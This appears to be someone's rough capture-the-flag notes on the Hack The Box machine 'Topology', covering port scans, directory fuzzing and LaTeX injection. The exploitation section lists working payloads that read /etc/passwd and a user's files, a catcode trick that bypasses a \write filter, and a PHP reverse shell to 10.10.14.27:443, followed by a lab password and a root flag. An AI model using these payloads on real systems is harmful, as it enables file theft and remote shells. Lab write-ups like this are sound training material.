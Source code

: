 # Topology HTB


## Scanning:

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




## Enumeration:

possible users or credentials

lklein@topology.htb


### FFUF enumeration:
❯ ffuf -c -ic -w /usr/share/wordlist/dirbuster/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.11.217/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.217/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlist/dirbuster/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 90ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 87ms]
                        [Status: 200, Size: 6767, Words: 1612, Lines: 175, Duration: 5622ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 94ms]



Two interesting domains was found 

* dev
* stats

dev.topology.htb stats.topology.htb
tested user lklein@topology.htb in the dev.topology.htb


*** inside the "latex" sudbomain, we found some configurations

like:

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```







##### Possible users
lklein
vdaisley
dabrahams@topology.htb
Underconstruction

vdaisley


## Exploitation:


****** worksssssss
\newread\file \openin\file=/etc/passwd \read\file to\filecontent \filecontent \closein\file
\newread\file \openin\file=/home/vdaisley/.bashrc \read\file to\filecontent \filecontent  \closein\file

forbidden:
\inmediate
\write
\packages




### rev shell
\catcode`\X=0
\newwrite\outfile
\openout\outfile=cmd.php
Xwrite\outfile{<?php} Xwrite\outfile{exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'"); ?>}
\closeout\outfile


credentials 
vdaisley:calculus20
path hickjaking
root.txt
7eefe6dc032160d062b07a32a542f7f8
